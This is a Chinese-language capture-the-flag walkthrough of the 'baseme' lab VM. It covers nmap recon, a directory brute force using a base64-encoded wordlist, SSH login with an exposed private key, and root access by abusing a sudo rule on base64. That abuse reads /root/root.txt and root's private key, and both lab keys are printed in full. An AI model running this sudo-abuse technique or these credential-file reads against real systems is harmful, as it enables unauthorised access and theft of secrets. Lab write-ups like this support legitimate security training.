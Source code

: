 ### 主机探测

```
arp-scan -l
```

> 靶机IP：192.168.56.112

端口探测

```shell
nmap -A 192.168.56.112
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 ca:09:80:f7:3a:da:5a:b6:19:d9:5c:41:47:43:d4:10 (RSA)
|   256 d0:75:48:48:b8:26:59:37:64:3b:25:7f:20:10:f8:70 (ECDSA)
|_  256 91:14:f7:93:0b:06:25:cb:e0:a5:30:e8:d3:d3:37:2b (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:5F:CE:90 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 访问web页面

```html
QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK

<!--
iloveyou
youloveyou
shelovesyou
helovesyou
weloveyou
theyhatesme
-->

```

base64解码

```
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```

全部答案都在base64中

### 目录扫描

普通扫描找不到任何东西

猜测，将字典进行base64编码后进行尝试

> 首先找到一个爆破目录的字典
>
> 对每一行进行加密

```bash
while IFS= read -r $line
do
	echo $line | base64 >>$2
done < $1
```

```
bash 1.sh 1.txt dir.txt
```

得到的dir.txt就是base64编码后的字典

```shell
dirsearch -w dir.txt -u http://192.168.56.112
```

```shell
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 1083

Output File: /home/kali/baseme/reports/http_192.168.56.112/_24-03-14_08-12-20.txt

Target: http://192.168.56.112/

[08:12:20] Starting: 
[08:12:21] 200 -   25B  - /cm9ib3RzLnR4dAo=
[08:12:27] 200 -    2KB - /aWRfcnNhCg==

Task Completed
```

> id_rsa
>
> robots.txt

id_rsa

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```

robots.txt

> Nothing here :(

### ssh连接

得到私钥，ssh连接

```shell
ssh lucas@192.168.56.112 -i id_rsa
```

> ```
> ssh lucas@192.168.56.112 -i id.rsa                                                                                                                                    
> @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@                                                                                                               
> @         WARNING: UNPROTECTED PRIVATE KEY FILE!          @                                                                                                               
> @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@                                                                                                               
> Permissions 0644 for 'id.rsa' are too open.                                                                                                                               
> It is required that your private key files are NOT accessible by others.
> ```

如果出现这种情况，就给密钥700权限

```
chmod 700 id_rsa
```

```shell
Enter passphrase for key 'id_rsa': 
Linux baseme 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Mar 14 02:22:58 2024 from 192.168.56.101
```

给的注释还没用，base64编码后

```
aWxvdmV5b3UK
eW91bG92ZXlvdQo=
c2hlbG92ZXN5b3U=
aGVsb3Zlc3lvdQo=
d2Vsb3ZleW91Cg==
dGhleWhhdGVzbWU=
```

密码是`aWxvdmV5b3UK`

### 提权

```
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/base64
```

可以使用base64

那就使用base64读取文件

![image-20240314203047916](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240314203047916.png)

```
sudo base64 /root/root.txt | base64 --decode
```

```
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
             *                                                  **              
             ,*                                               ,*                
                **                                          *.                  
                   **                                    **.                    
                     ,*                                **                       
                        *,                          ,*                          
                           *                      **                            
                             *,                .*                               
                                *.           **                                 
                                  **      ,*,                                   
                                     ** *,                                      
                                               
HMVFKBS64
```

或者读取id_rsa文件

```
lucas@baseme:~$ sudo base64 /root/.ssh/id_rsa | base64 --decode
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAw6MgMnxUy+W9oem0Uhr2cJiez37qVubRK9D4kdu7H5NQ/Z0FFp2B
IdV3wx9xDWAICJgtYQUvOV7KFNAWvEXTDdhBwdiUcWEJ4AOXK7+5v7x4b8vuG5zK0lTVxp
DEBE8faPj3UaHsa1JUVaDngTIkCa6VBICvG0DCcfL8xHBpCSIfoHfpqmOpWT/pWXvGI3tk
/Ku/STY7Ay8HtSgoqCcf3F+lb9J9kwKhFg9eLO5QDuFujb1CN7gUy8xhgNanUViyCZRwn7
px+DfU+nscSEfG1zgfgqn2hCbBYqaP0jBgWcVL6YoMiwCS3jhmeFG4C/p51j3gI6b8yz9a
S+DtdTpDwQAAA8D82/wZ/Nv8GQAAAAdzc2gtcnNhAAABAQDDoyAyfFTL5b2h6bRSGvZwmJ
7PfupW5tEr0PiR27sfk1D9nQUWnYEh1XfDH3ENYAgImC1hBS85XsoU0Ba8RdMN2EHB2JRx
YQngA5crv7m/vHhvy+4bnMrSVNXGkMQETx9o+PdRoexrUlRVoOeBMiQJrpUEgK8bQMJx8v
zEcGkJIh+gd+mqY6lZP+lZe8Yje2T8q79JNjsDLwe1KCioJx/cX6Vv0n2TAqEWD14s7lAO
4W6NvUI3uBTLzGGA1qdRWLIJlHCfunH4N9T6exxIR8bXOB+CqfaEJsFipo/SMGBZxUvpig
yLAJLeOGZ4UbgL+nnWPeAjpvzLP1pL4O11OkPBAAAAAwEAAQAAAQBIArRoQOGJh9AMWBS6
oBgUC+lw4Ptq710Q7sOAFMxE7BnEsFZeI62TgZqqpNkdHjr2xuT1ME5YpK5niMzFkkIEd5
SEwK6rKRfUcB3lyZWaoMoIBJ1pZoY1c2qYw1KTb3hVUEbgsmRugIhwWGC+anFfavaJCMDr
nCO2g8VMnT/cTyAv/Qmi8m868KNEzcuzGV5ozHl1XLffHM9R/cqPPyAYaQIa9Z+kS6ou9R
iMTjTSxOPnfh286kgx0ry1se9BBlrEc5251R/PRkEKYrMj3AIwI30qvYlAtNfcCFhoJXLq
vWystPARwiUs7WYBUHRf6bPP/pHTTvwwb2bs51ngImpdAAAAgDaWnQ7Lj7Vp+mTjhSu4oG
ptDHNd2uuqB1+CHRcaVutUmknxvxG3p957UbvNp6e0+ePKtAIakrzbpAo6u25poyWugAuz
X2nQhqsQh6yrThDJlTiDMeV7JNGFbGOcanXXXHt3tjfyrS0+aM87WmwqNyh6nfgy1C5axR
fKZG8ivz5iAAAAgQD83QmCIcbZaCOlGwgHGcuCUDcxGY1QlIRnbM5VAjimNezGFs9f0ExD
SiTwFsmITP//njsbRZP2laiKKO6j4yp5LpfgDB5QHs+g4nXvDn6ns64gCKo7tf2bPP8VCe
FWyc2JyqREwE3WmyhkPlyr9xAZerZ+7Fz+NFueRYzDklWg8wAAAIEAxhBeLqbo6/GUKXF5
rFRatLXI43Jrd9pyvLx62KghsnEBEk7my9sbU5dvYBLztS+lfPCRxV2ZzpjYdN4SDJbXIR
txBaLJe3c4uIc9WjyxGwUK9IL65rSrRVERHsTO525ofPWGQEa2A+pRCpz3A4Y41fy8Y9an
2B2NmfTAfEkWFXsAAAALcm9vdEBiYXNlbWU=
-----END OPENSSH PRIVATE KEY-----
```

### 总结

> 不是很难，思路很新奇，就是一样的步骤，只不过进行了base64编码
>
> 靶机涉及知识点：
>
> ssh私钥连接，目录爆破